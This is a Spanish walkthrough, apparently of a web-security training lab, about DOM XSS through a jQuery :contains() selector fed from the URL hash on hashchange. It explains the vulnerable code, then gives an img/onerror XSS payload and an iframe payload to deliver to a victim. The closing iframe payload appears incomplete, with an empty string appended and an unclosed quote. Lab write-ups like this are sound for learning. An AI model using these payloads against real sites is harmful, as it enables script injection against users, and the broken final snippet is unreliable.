



# DOM XSS in jQuery selector sink using a hashchange event

```c
$(window).on('hashchange', function(){
	var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
	if (post) post.get(0).scrollIntoView();
	});
```

- **Escuchando el evento `hashchange`:**

    `$(window).on('hashchange', function() {`
 Este evento se activa cada vez que cambia el hash en la URL (la parte de la URL que viene después de `#`).
- **Obteniendo el hash de la URL y buscando el elemento:**

```c
var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
```

   - `window.location.hash` obtiene el hash de la URL, incluyendo el símbolo `#`.
   - `slice(1)` elimina el `#` del inicio del hash.
   - `decodeURIComponent` decodifica cualquier carácter especial en el hash (como `%20` por un espacio).
   - `$('section.blog-list h2:contains(...)')` busca un elemento `h2` dentro de `section.blog-list` que contenga el texto del hash.
   
- **Desplazando la vista al elemento encontrado:**

```c
if (post) post.get(0).scrollIntoView();
```

- Si se encuentra un elemento que coincida con el texto del hash (`if (post)`), se llama a `scrollIntoView()` en el primer elemento encontrado (`post.get(0)`).
- `scrollIntoView()` desplaza la ventana del navegador para que el elemento sea visible en la vista.

Si la URL cambia a `http://example.com#Post%202`, el código buscará un `h2` dentro de `section.blog-list` que contenga el texto "Post 2" y desplazará la ventana para que ese elemento sea visible.





Ejecutando `window.location.hash` en la terminal podremos ver el valor que va después de `#`

```c
https://0aa7007a032fa4278011b75f00c50036.web-security-academy.net/#%3Cimg%20src=x%20onerror=print()%3E
```



Luego de analizar el código fuente por lo que podemos usar el siguiente payload para enviar a la victima y así ejecute un JavaScript

```c
<iframe src="https://0aa7007a032fa4278011b75f00c50036.web-security-academy.net/#" onload="this.src+=''" hidden="hidden>

</iframe>
```

